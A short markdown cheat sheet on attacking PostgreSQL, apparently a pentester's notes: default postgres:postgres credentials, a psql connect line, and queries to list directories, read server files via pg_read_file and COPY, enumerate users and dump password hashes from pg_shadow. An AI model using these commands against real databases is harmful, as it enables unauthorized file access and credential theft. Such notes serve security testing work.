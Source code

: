 # sqli postgres-sql

## Connect

```bash
psql -h IP -p PORT -U <user> [-c query-to-execute]
```

## Default creds

```
postgres:postgres
```

## Interesting Paths

```bash
/postgresql/data/postgresql.conf
```

## postgres commands

Cheatsheet: [pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

```bash
\x: pretty display

# comments
--
/* <blah> */

# hostname

# version
version()

# show config file
SHOW config_file

# read dir, files
SELECT pg_ls_dir('<dir-path>')
SELECT pg_read_file('<file>')
OR
CREATE TABLE <t-name> (out TEXT)
COPY <t-name> FROM '<file>'
# data is appended on multiple COPY
SELECT * FROM <t-name>
TRUNCATE <t-name> 

# users
\du;
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT getpgusername();
| SELECT usename FROM pg_user;

# password (md5)
SELECT passwd FROM pg_shadow

# databases
current_database()
| SELECT datname FROM pg_database


# tables
\dt
\dt+
\d+ <table>

# cols

# nth row
```
